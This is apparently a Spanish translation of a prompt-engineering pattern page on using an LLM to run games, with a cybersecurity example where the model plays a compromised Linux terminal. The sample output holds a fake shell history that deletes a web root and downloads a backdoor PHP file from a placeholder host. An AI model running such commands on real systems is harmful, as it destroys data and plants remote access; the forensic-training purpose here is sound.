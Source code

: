 # Patrón de Juego

## Intención y Contexto

La intención de este patrón es crear un juego en torno a un tema determinado. El patrón puede combinarse con el Generador de Visualización para añadir imágenes al juego. El juego se centra en un tema específico y el LLM guiará el juego. Este patrón es particularmente efectivo cuando las reglas del juego son relativamente limitadas en alcance, pero se espera que el contenido del juego sea amplio. El usuario puede especificar un conjunto limitado de reglas y luego el LLM puede automatizar la generación de contenidos para el juego.

## Motivación

Te gustaría que el LLM generase escenarios o preguntas en torno a un tema específico y requerir que los usuarios apliquen habilidades de resolución de problemas u otras habilidades para lograr una tarea relacionada con el escenario. Generar todo el contenido para el juego manualmente sería demasiado tedioso, sin embargo, te gustaría que el LLM aplicase su conocimiento sobre el tema para guiar la generación de contenido.

## Estructura e Ideas Clave

Declaraciones contextuales fundamentales:

|Declaraciones Contextuales
|-|
Crea un juego para mí en torno a X
Una o más reglas fundamentales del juego

La primera declaración instruye al LLM a crear un juego y proporciona el enfoque importante del juego a un área temática. Una de las capacidades importantes del patrón es que permite al usuario crear juegos describiendo las reglas del juego, sin tener que determinar el contenido del juego. Cuanto más específico sea el tema, típicamente el juego será más novedoso e interesante.

La segunda declaración presenta las reglas del juego al LLM. Es importante que las reglas se ajusten a las capacidades del LLM. Los juegos textuales que dependen de secuencias de texto de entrada y salida funcionan mejor. Uno de los atributos clave del patrón es que el texto de entrada puede ser rico y expresivo, lo que puede llevar a interfaces interesantes para el juego. Por ejemplo, el usuario podría expresar acciones en el juego como scripts que dictan una secuencia de acciones complejas, como "obtener un listado de toda la actividad de la red y comprobar si hay anomalías", lo que va más allá del alcance de las entradas de opción múltiple o respuesta corta. Cada regla debe proporcionarse como una declaración separada con respecto a algún aspecto del juego.

## Ejemplo de Implementación

A continuación se muestra un ejemplo de un juego sobre ciberseguridad:

> "Vamos a jugar a un juego de ciberseguridad. Vas a pretender ser un terminal Linux de un ordenador que ha sido comprometido por un atacante. Cuando escriba un comando, vas a mostrar el texto correspondiente que el terminal Linux produciría. Voy a usar comandos para intentar descubrir cómo fue comprometido el sistema. El ataque debería haber hecho una o más de las siguientes cosas: (1) lanzado nuevos procesos, (2) cambiado archivos, (3) abierto nuevos puertos para recibir comunicación, (4) creado nuevas conexiones salientes, (5) cambiado contraseñas, (6) creado nuevas cuentas de usuario, o (7) leído y robado información. Para comenzar el juego, imprime un escenario de lo que sucedió que llevó a mi investigación y haz que la descripción tenga pistas que pueda usar para comenzar."

Este juego de ciberseguridad combina varios patrones, incluyendo el de Juego y el de Personalidad. La personalidad del terminal Linux que se elige para el juego [ha sido discutida en muchas publicaciones en Internet](https://www.engraved.blog/building-a-virtual-machine-inside/). Este juego personaliza aún más la personalidad de Linux discutida para actuar como un terminal Linux de un ordenador comprometido por un ciberataque. ChatGPT responde a los comandos de Linux con las salidas del terminal apropiadas y sintetiza un sistema de archivos falso que tiene pistas sobre un ciberataque.

Una muestra de la salida de este juego con ChatGPT después de escribir "ls -alt", el comando de Linux para generar una lista de archivos en el directorio actual se muestra a continuación (los permisos han sido eliminados por razones de formato):

```
total 56
 5 user user  4096 Feb 16 14:31 .
 1 user user 18881 Feb 16 14:31 .bash_history
43 user user  4096 Feb 16 14:30 ..
 1 user user  1178 Aug 15  2022 .bashrc
 1 user user   220 Aug 15  2022 .bash_logout
 3 user user  4096 Feb 16 14:25 .gnupg
 1 user user  4041 Feb 15 17:52 README.md
 2 user user  4096 Feb 1  11:35 project
```

Cuando el usuario luego escribió el comando "cat .bash history", para mostrar el contenido del archivo de registro que muestra los comandos ejecutados por el usuario, ChatGPT respondió con:

```
cd /var/www/html
sudo rm -rf *
sudo wget https://example.com/backdoor.php
sudo chmod 777 backdoor.php
exit
ls -alt
ps -ef
netstat -tulnp
```

En la salida anterior, ChatGPT generó un archivo de registro falso con comandos realistas para eliminar los datos que están siendo servidos por el servidor web en /var/www/html y reemplazar el contenido con una puerta trasera en el sistema.

## Consecuencias

Este patrón se puede combinar eficazmente con los patrones [Persona](persona.md), [Generación Infinita](generacionInfinita.md) y [Generador de Visualización](generadorDeVisualizacion.md). Por ejemplo, el juego de ciberseguridad utiliza el patrón de Persona para que el LLM pueda hacerse pasar por un terminal Linux. Para un juego de seguridad de red, el Generador de Visualización podría emplearse para agregar la capacidad de visualizar la topología de la red y los flujos de tráfico.
